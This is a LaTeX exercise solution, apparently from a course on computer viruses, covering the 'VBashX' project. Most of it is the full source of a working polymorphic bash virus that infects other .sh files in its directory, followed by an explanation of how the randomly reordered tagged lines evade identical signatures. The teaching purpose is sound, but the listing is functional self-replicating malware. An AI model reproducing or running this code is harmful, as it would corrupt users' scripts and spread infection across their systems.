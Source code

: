 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\newtheorem{exercice}{Exercise}
\begin{document}
\begin{exercice}[VBashX Project]
\begin{enumerate}
\item[\textbf{4d)}] Among the 3 strategies from Phase 2, which ones still work with polymorphism? Justify.
\end{enumerate}

\begin{correction}

\textbf{4a+4b)} The complete virus with line-reordering polymorphism:
\begin{lstlisting}[title=vbashx\_phase4.sh]
#!/bin/bash
echo "I am the host program"
# --- VBashX Restoration --- VBX_7k9Pz
REST_SIZE=11
LI=16
VIRUS_SIZE=$(($REST_SIZE + $LI))
TMP=".vbx_tmp.sh"
echo "#!/bin/bash" > $TMP
echo "SRC=\"$0\"" >> $TMP
nb=1; while [ $nb -le $LI ]; do
grep "#@${nb}#" "$0" >> $TMP
nb=$(($nb + 1)); done
chmod +x $TMP && ./$TMP; rm -f $TMP; exit 0
MARKER="VBX_7k9Pz" #@1#
for f in *.sh; do #@2#
if [ "$(basename "$f")" != "$(basename "$SRC")" ]; then #@3#
if [ -z "$(grep "$MARKER" "$f")" ]; then #@4#
REST_S=11; LI_S=16; VS=$(($REST_S + $LI_S)) #@5#
tail -n $VS "$SRC" | head -n $REST_S >> "$f" #@6#
r=$(( ($RANDOM % 16) + 1 )) #@7#
n=1 #@8#
while [ $n -le $LI_S ]; do #@9#
grep "#@${r}#" "$SRC" >> "$f" #@10#
r=$(( ($r * 3) % 17 )) #@11#
n=$(($n + 1)) #@12#
done #@13#
fi #@14#
fi #@15#
done #@16#
\end{lstlisting}

\textbf{Code explanation:}
\begin{itemize}
    \item \textbf{Lines 3--13} (restoration code, untagged): extracts the 16 tagged lines in order (1, 2, \ldots, 16), writes them to \texttt{.vbx\_tmp.sh} with the source path, executes this file, then terminates with \texttt{exit 0}.
    \item \textbf{Lines 14--29} (infection code, tagged \texttt{\#@1\#} to \texttt{\#@16\#}): these lines are in arbitrary order in the file but the restoration code puts them back in order before execution. They check for reinfection, copy the restoration code to the target, then append the tagged lines in a random order using the formula $r \leftarrow (r \times 3) \bmod 17$.
\end{itemize}

\textbf{4c)} Comparing two infected files, we see that the tagged lines are in a \textbf{different order} (the random seed \texttt{\$RANDOM} differs with each execution). The restoration code, however, is \textbf{identical} in all infected files.


\end{correction}
\end{exercice}
\end{document}

